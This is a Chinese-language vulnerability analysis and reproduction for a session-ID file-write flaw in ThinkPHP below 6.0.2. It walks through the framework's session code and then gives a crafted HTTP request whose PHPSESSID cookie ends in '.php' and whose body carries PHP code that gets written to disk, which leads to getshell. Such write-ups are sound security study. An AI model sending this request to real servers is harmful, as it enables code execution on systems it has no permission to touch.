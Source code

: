 # Thinkphp < 6.0.2 session id未作过滤导致getshell

### 一、漏洞简介

### 二、漏洞影响

Thinkphp < 6.0.2

### 三、复现过程

漏洞分析

通过diff github上面的6.0.1和6.0.2的代码可以发现，6.0.1在设置session id时未对值进行ctype_alnum()校验，从而导致可以传入任意字符。

![](images/15893489853270.png)


传入任意字符会有什么危害？一般来说程序可能会以session id作为文件名来创建对应的session文件，但是到目前为止这只是猜测。看一下保存session是怎么写的。


```php
public function save(): void
{
    $this->clearFlashData();

    $sessionId = $this->getId();

    if (!empty($this->data)) {
        $data = $this->serialize($this->data);

        $this->handler->write($sessionId, $data);
    } else {
        $this->handler->delete($sessionId);
    }

    $this->init = false;
}
```

先获取sessionid，然后作为第一个参数传入$this->handler->write()。$this->handler在构造函数中被初始化


```php
public function __construct($name, SessionHandlerInterface $handler, array $serialize = null)
{
    $this->name    = $name;
    $this->handler = $handler;

    if (!empty($serialize)) {
        $this->serialize = $serialize;
    }

    $this->setId();
}
```

可以看出$handler的类型是SessionHandlerInterface，全局发现这是一个接口，实现这个接口的类有两个，一个是File，一个是Cache。这里以File类为例，我们跟进它的write()方法


```php
public function write(string $sessID, string $sessData): bool
{
    $filename = $this->getFileName($sessID, true);
    $data     = $sessData;

    if ($this->config['data_compress'] && function_exists('gzcompress')) {
        //数据压缩
        $data = gzcompress($data, 3);
    }

    return $this->writeFile($filename, $data);
}
```

这里先通过第一个参数（也就是session id）来构造$filename，然后判断是否需要对session数据进行压缩，默认是不需要的，最后return时调用$this->writeFile()。先看看文件名是如何构造的，跟进$this->getFileName()


```php
protected function getFileName(string $name, bool $auto = false): string
{
    if ($this->config['prefix']) {
        $name = $this->config['prefix'] . DIRECTORY_SEPARATOR . 'sess_' . $name;
    } else {
        $name = 'sess_' . $name;
    }

    $filename = $this->config['path'] . $name;
    ...
    return $filename;
}
```

这里直接将第一个参数拼接到路径的最后。跟进之前的$this->writeFile()方法


```php
protected function writeFile($path, $content): bool
{
    return (bool) file_put_contents($path, $content, LOCK_EX);
}
```

刺激了，这里直接保存了文件。纵观全局，由于程序未对session id进行危险字符判断，只要将session id写为类似于xxxx.php的格式，即可导致session保存成.php文件，从而getshell。

#### 漏洞复现

通过全局搜索setId发现在think/middleware/SessionInit.php:handle():L59发生了调用。


```php
public function handle($request, Closure $next)
{
    // Session初始化
    $varSessionId = $this->app->config->get('session.var_session_id');
    $cookieName   = $this->session->getName();

    if ($varSessionId && $request->request($varSessionId)) {
        $sessionId = $request->request($varSessionId);
    } else {
        $sessionId = $request->cookie($cookieName);
    }

    if ($sessionId) {
        $this->session->setId($sessionId);
    }
    ...
```

由于session.var_session_id默认是空，这里的$sessionId的值由$request->cookie($cookieName)获得，$cookieName经过跟进后发现默认是PHPSESSID。

![](images/15893490532976.png)


因此我们只要设置Cookie中的PHPSESSID的值为1234567890123456789012345678.php即可。

我们在index控制器中添加如下action


```php
public function testsession2(){
    $username = Request::get('name');
    Session::set('username', $username);
    return 'hi';
}
```

用于获取name参数，并将之设置到session中。

根据控制器构造数据包

注意 session PHPSESSID= 后面要按照要求必须 32位 可以随便构造!!!


```php
POST /tp6/public/index.php/index/test1 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:72.0) Gecko/20100101 Firefox/72.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 24
Origin: http://127.0.0.1
Connection: close
Referer: http://127.0.0.1/tp6/public/index.php/index/test1
Cookie: PHPSESSID=1234567890123456789012345678.php; 
Upgrade-Insecure-Requests: 1

key=<?php%20phpinfo();?>
```

访问url：`http://127.0.0.1/tp6/public/index.php/index/testsession2?name=`

![](images/15893490832085.png)


访问session文件，一般位于项目根目录下的./runtime/session/文件夹下，也就是/runtime/session/sess_1234567890123456789012345678.php

![](images/15893490893897.png)


参考链接

https://xz.aliyun.com/t/7109